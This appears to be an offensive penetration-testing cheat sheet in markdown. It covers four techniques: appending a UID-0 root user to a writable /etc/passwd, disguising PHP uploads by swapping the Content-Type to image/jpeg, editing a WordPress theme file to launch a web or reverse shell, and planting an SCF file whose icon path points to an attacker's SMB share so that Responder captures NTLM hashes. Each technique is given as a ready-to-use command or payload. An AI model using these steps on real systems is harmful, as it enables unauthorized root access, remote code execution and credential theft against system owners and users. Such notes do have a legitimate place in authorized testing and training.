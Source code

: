 
# /etc/passwd Writable

Create New Root User
```
openssl passwd passwordofchoice > generatedhash

Create new user via append to /etc/passwd:
echo "username:generatedhash:0:0:userdisplayname:/root:/bin/bash" >> /etc/passwd
```

# File Upload Bypass

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
```
Convert between Content Types:
application/x-php
and
image/jpeg
etc.
```

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```